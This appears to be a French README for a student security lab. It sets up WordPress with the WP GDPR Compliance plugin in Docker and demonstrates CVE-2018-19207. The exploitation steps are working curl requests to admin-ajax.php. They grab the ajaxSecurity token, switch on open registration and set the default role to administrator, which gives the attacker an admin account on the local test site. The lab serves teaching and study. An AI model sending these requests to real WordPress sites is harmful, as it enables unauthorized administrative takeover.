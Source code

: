 # SDSI

Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers

Lancez la virtual box Centos7 (option 1 recommandée).

```
lance-vm-centos7.sh
```

Téléchargez les sources dans la virtual box et installez docker-compose (vous pouvez utiliser le script `docker-compose.sh`).

Placez vous dans le repertoire des sources et démarrez les containers.

```
docker-compose up
```

## Configuration de wordpress

1. Se connecter au site via `http://localhost:8000/`

2. Créer le compte administrateur en suivant les instructions (N.B : Attention l'adresse mail n'a pas besoin d'être correcte mais son format doit l'être !)

3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## Exploitation de la faille

### 1. Se connecter sur le home du site

- Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Tentez de créer un nouveau compte à l'adresse `http://localhost:8000/wp-login.php?action=register`.

On peut voir le message d'erreur suivant "User registration is currently not allowed." Nous allons modifier les paramètres Wordpress afin d'autoriser la création de nouveaux comptes.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`, on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite désormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Obtenir un compte administrateur

Créez-vous un nouveau compte `http://localhost:8000/wp-login.php?action=register`. On vous demande ensuite de vérifier votre adresse mail. Ignorez cette demande (le site n'est pas configuré pour envoyer des mails) et Connectez vous via `http://localhost:8000/wp-login.php` avec le compte admin initial.

Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator". Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").

## En cas de problème

Si vous n'arrivez pas à faire fonctionner le PoC, n'hésitez pas à créer un ticket sur notre dépôt : https://github.com/saoulij/SDSI/ !
